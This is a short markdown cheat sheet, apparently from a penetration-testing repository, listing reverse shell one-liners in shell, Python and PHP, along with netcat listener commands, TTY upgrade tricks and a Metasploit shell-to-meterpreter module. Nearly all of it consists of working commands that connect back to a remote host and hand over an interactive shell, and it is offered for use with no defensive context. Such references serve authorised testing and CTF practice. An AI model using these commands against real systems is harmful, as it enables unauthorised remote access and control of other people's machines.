 # Shell Cheatsheet

## Reverse Shell

### Shell

```
nc -c '/bin/bash -c "script /dev/null"' 127.0.0.1 1337
```

```
nc -e /bin/sh 10.0.0.1 1234
```

### Python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.170",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```


### PHP

```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```


## Listener

### Shell

#### General Listener

```
stty -echo raw; nc -lp 1337; stty sane
```

#### Listen on a specific IP
```
nc -l -p 4444 -s 127.0.0.1
```


## Upgrading


### Shell

```
stty raw -echo && fg %1
```

### Python
```
python -c 'import pty; pty.spawn("/bin/sh")'
```

### MSF

```
use post/multi/manage/shell_to_meterpreter
```


## Resources

- [Pentest Monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [xl7dev](http://blog.safebuff.com/2016/06/19/Reverse-shell-Cheat-Sheet/)

